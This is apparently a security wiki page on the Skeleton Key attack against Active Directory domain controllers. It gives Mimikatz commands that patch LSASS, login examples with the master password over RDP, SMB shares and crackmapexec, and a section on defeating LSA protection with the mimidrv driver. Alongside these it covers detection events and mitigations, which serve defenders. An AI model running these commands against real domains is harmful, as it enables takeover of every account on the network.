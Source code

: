 # Skeleton Key Attack

## Description

The Skeleton Key attack is malware that can be injected into the LSASS process on a Domain Controller and creates a master password that will hijack **\[sic]** any authentication request on the domain and allow an attacker to log in as any user on any system on the domain with the same password.

## Prerequisites

* Attacker must have obtained Domain Admin rights
* Mimikatz running on a Domain Controller
* For most effective use all Domain Controllers will need to be exploited however, this is not a hard requirement
* Rebooting a Domain Controller will remove the malware

## Exploitation

After Mimikatz has been dropped onto a Domain Controller and executed with Domain Admin privileges the following simple command can be used to perform the exploit.

```bash
privilege::debug #Check for '20' OK debug rights.
misc::skeleton
```

![](<../../../.gitbook/assets/image (1987).png>)

With the above confirming the Lsass.exe process being successfully patched the password **mimikatz** can be used to authenticate as any user in the domain.

### Usage Examples

### RDP

RDP can be used to authenticate against the Skeleton Key to access high level accounts from a GUI. Below we can access the CEO's desktop directly.

```bash
xfreerdp /v:<IP> /u:<User> /p:<mimikatz> /d:<Domain> #Syntax
xfreerdp /v:10.10.10.9 /u:CEO /p:mimikatz /d:security.local
```

### Mapping Remote Shares

```bash
net use <DriveLetter:> \\<IP>\<Share> /user:<User> mimikatz #Syntax
net use Z: \\10.10.10.9\ADMIN$ /user:Administrator mimikatz
```

### Crackmapexec

With valid Domain Admin credentials `crackmapexec` can be used to inject the `Mimikatz` module and Skeleton key command directly to a target Domain Controller.

```bash
crackmapexec smb 10.10.10.10 -u 'Administrator' -p 'Password123!' -M mimikatz -o COMMAND='misc::skeleton'
```

## Detection

### Enable audit mode for Lsass.exe (Single System)

Edit the registry to the following:

* HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\LSASS.exe.
* Set the value of the registry key to AuditLevel=dword:00000008.
* Restart the system

### Enable audit mode for Lsass.exe (Group Policy)

1. Expand **Computer Configuration**, expand **Preferences**, and then expand **Windows Settings**.
2. Right-click **Registry**, point to **New**, and then click **Registry Item**. The **New Registry Properties** dialog box appears.
3. In the **Hive** list, click **HKEY\_LOCAL\_MACHINE.**
4. In the **Key Path** list, browse to **SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\LSASS.exe**.
5. In the **Value name** box, type **AuditLevel**.
6. In the **Value type** box, click to select the **REG\_DWORD**.
7. In the **Value data** box, type **00000008**.
8. Click **OK**.

{% hint style="info" %}
For the GPO to take effect, the GPO change must be replicated to all domain controllers.
{% endhint %}

After making required changes the event logs on appropriate systems can be monitored for plug-ins and drivers loaded by lsass.exe

Analyze the results of Event 3033 and Event 3063.

After this, you may see these events in Event Viewer: Microsoft-Windows-Codeintegrity/Operational:

* **Event 3033**: This event records that a code integrity check determined that a process (usually lsass.exe) attempted to load a driver that did not meet the Microsoft signing level requirements.
* **Event 3063**: This event records that a code integrity check determined that a process (usually lsass.exe) attempted to load a driver that did not meet the security requirements for Shared Sections.

## Mitigation

### LSA Protection

LSASS can be run in protected mode which may help to prevent this kind of attack. Enabling protected mode ensures any alterations to the LSASS process must be signed by a verified Microsoft signature. A caveat to this is if malware is able to load into the kernel the protection would be nullified.

Perform the follow registry changes to enable LSA protection:

* HKLM\SYSTEM\CurrentControlSet\Control\Lsa.
* Set the value of the registry key to: "RunAsPPL"=dword:00000001.
* Restart the computer.

{% hint style="danger" %}
LSA plug-ins which are **NOT** compatible with LSA Protection Mode **will NOT function** after enabling the mode.
{% endhint %}

To check if LSA Protection is enabled we can check for Event ID 12 from Wininit under the System logs in Event Viewer.

![](<../../../.gitbook/assets/image (1991).png>)

### Multi-factor authentication

Skeleton key attacks use single authentication on the network for the post exploitation stage. Multi-factor implementations such as a smart card authentication can help to mitigate this attack.

### Application Whitelisting

Application whitelisting can be utilized to stop unapproved applications being executed on the Domain Controller. [AppLocker](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/applocker-overview)\*\* \*\*would be an appropriate solution in this circumstance.

### Protecting Domain Administrator accounts

Ensuring Domain admin accounts are not compromised would mitigate this attack as Domain Admin privileges are a hard requirement to perform a skeleton key attack

## Protection Bypass

The below image represents an attempt to access the lsass.exe process and extract clear text passwords and run a skeleton key attack. As we can see this has not been successful since applying the registry key change mentioned in the mitigation section for LSA Protection.

![](<../../../.gitbook/assets/image (1989).png>)

We can check if the LSA Protection RunAsPPL key exists by querying the registry to confirm the LSA protection is in place.

```bash
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v "RunAsPPL"
# Value 0x1 means LSA Protection is enabled
```

This can be bypassed however by utilizing the mimidrv.sys driver file which is included as a separate file with mimikatz.

{% hint style="info" %}
The mimidrv.sys driver file needs to exists in the same directory as mimikatz.exe.
{% endhint %}

The driver can be loaded by running the command `!+` in `Mimikatz`. After doing so the follow command can be execute to protect the `mimikatz.exe` process.

```bash
!processProtect /process:mimikatz.exe
```

The same command with the `/remove` flag can be used to strip the process protection from a process such as `lsass.exe`

```bash
!processprotect /process:lsass.exe /remove
```

After doing so it is possible to bypass the LSA protection as shown below where the command `misc::skeleton` is performed and successfully completes.

![](<../../../.gitbook/assets/image (1990).png>)

## References:

* \*\* \*\*[https://riccardoancarani.github.io/2020-08-08-hunting-for-skeleton-keys/](https://riccardoancarani.github.io/2020-08-08-hunting-for-skeleton-keys/)
* [https://ldapwiki.com/wiki/LSA%20Protection](https://ldapwiki.com/wiki/LSA%20Protection)
* [https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection](https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection)
* [https://itm4n.github.io/lsass-runasppl/](https://itm4n.github.io/lsass-runasppl/)
* [https://gorkemkaradeniz.medium.com/defeating-runasppl-utilizing-vulnerable-drivers-to-read-lsass-with-mimikatz-28f4b50b1de5](https://gorkemkaradeniz.medium.com/defeating-runasppl-utilizing-vulnerable-drivers-to-read-lsass-with-mimikatz-28f4b50b1de5)
* [https://posts.specterops.io/mimidrv-in-depth-4d273d19e148](https://posts.specterops.io/mimidrv-in-depth-4d273d19e148)
